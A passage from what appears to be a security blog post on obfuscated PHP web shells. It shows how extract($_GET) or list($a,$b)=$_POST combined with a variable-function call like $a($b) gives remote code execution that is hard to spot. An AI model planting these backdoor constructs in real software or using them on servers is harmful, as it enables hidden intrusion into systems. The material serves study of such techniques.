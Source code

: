 In other words, such a piece of code:

```php
extract(array("a" => "b", "c" => "d"));
```

would create the variable `$a = "b"` and `$c = "d"`. Combining it with variable functions, it is now clear that `$_GET['a']($_GET['b']);` could be written as:

```php
extract($_GET);
$a($b);
```

In other words, using `extract` in this way is like setting `register_globals` to `on`.

_The routine `parse_str` could have the same effect if it is used with only one argument. But as of PHP 8.0.0, the second parameter is mandatory._

# The `list` routine

Another interesting routine similar to `extract` is [`list`](https://www.php.net/manual/en/function.list.php). As stated in the doc:

>
>Like array(), this is not really a function, but a language construct. list() is used to assign a list of variables in one operation. Strings cannot be unpacked and list() expressions cannot be completely empty.
>

Compared to `extract`, the documentation does not warn here against misuses. My guess is that a misuse of `extract` would involve the passed parameter (a user-controlled array), while a misuse of `list` would involve the right side of the assignment, and therefore not something directly related to the routine itself. For example, the following snippet would create the variables `$drink`, `$color` and `$power`, respectively assigning to them the values _coffee_, _brown_, and _caffeine_ (from the doc). 

```php
$info = array('coffee', 'brown', 'caffeine');
list($drink, $color, $power) = $info;
```

To make it behave like `extract`, one would need to write something like:

```php
list($a,$b) = $_POST;
$a($b);
```

To trigger the code execution, one would then need to send something like:

<img width="100%" style="margin-left:auto;margin-right:auto;display:block;" alt="webshell_list" src="/assets/res/stuff/webshell_list.png">


By default, index names are increasing integers. The `extract` solution has the advantage that no obvious relation exists between the `$_POST` and the variables `$a` and `$b`; 
